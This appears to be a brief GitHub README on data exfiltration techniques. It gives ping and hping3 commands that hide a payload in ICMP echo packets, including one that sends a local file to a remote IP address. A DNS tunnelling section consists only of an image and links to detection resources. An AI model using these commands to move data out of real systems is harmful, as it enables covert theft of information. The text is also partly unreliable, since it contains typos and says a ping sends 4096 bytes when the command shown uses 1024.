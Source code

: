 # Techniques to exfiltrate data

## 1. ICMP echo request

Ping operates by sending Internet Control Message Protocol (ICMP) echo reqtest packets to the rarget host and waiting for an ICMP echo replay!

The following command will send a ping request with the size of 4096:

```
$ ping 127.0.0.1 -s 1024
```

The payload of 4096 is junk **until** you add your own payload:

```
$ sudo hping3 127.0.0.1 -1 --sign="Hello world!"
```

or even send a file:

```
$ sudo hping3 192.168.179.131 -1 --file send.txt --data 100
```

## 2. DNS protocol

An image worth a thousand words...

![DNS Data Exfiltration](docs/dns_data_exfiltration.png)


## Resources: 

  * https://www.sans.org/reading-room/whitepapers/dns/detecting-dns-tunneling-34152
  *https://community.infoblox.com/t5/Community-Blog/DNS-Data-Exfiltration-How-it-works/ba-p/3664